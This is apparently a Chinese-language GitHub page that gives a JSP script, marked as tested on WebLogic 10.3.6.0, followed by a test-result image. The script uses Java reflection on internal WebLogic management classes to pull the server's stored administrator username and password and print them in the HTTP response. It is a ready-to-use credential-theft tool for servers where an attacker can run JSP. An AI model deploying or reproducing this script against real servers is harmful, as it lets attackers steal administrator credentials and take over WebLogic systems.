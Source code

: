 代码实现

> ```jsp
> <%@page import="java.lang.reflect.Field" %>
> <%@page import="java.lang.reflect.Method" %>
> 
> <%
>   /**
>    * 已测试：
>    *  10.3.6.0
>    */
>   try{
>     ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
>     Class httpDataTransferHandler = classLoader.loadClass("weblogic.deploy.service.datatransferhandlers.HttpDataTransferHandler");
>     Class managementService = classLoader.loadClass("weblogic.management.provider.ManagementService");
>     Class authenticatedSubject = classLoader.loadClass("weblogic.security.acl.internal.AuthenticatedSubject");
>     Class propertyService = classLoader.loadClass("weblogic.management.provider.PropertyService");
>     Field KERNE_ID = httpDataTransferHandler.getDeclaredField("KERNE_ID");
>     KERNE_ID.setAccessible(true);
>     Method getPropertyService = managementService.getMethod("getPropertyService",authenticatedSubject);
>     getPropertyService.setAccessible(true);
>     Object prop = getPropertyService.invoke((Object) null,KERNE_ID.get((Object) null));
>     Method getTimestamp1 = propertyService.getMethod("getTimestamp1");
>     getTimestamp1.setAccessible(true);
>     Method getTimestamp2 = propertyService.getMethod("getTimestamp2");
>     getTimestamp2.setAccessible(true);
>     String username = (String) getTimestamp1.invoke(prop);
>     String password = (String) getTimestamp2.invoke(prop);
>     response.getWriter().write( username + "/" + password);
>   }catch (Exception e) {
>     e.printStackTrace();
>   }
> %>
> ```

测试效果

![image](img/144720974-59cb9fd5-65df-4dae-a9f8-fd103719f499.png)

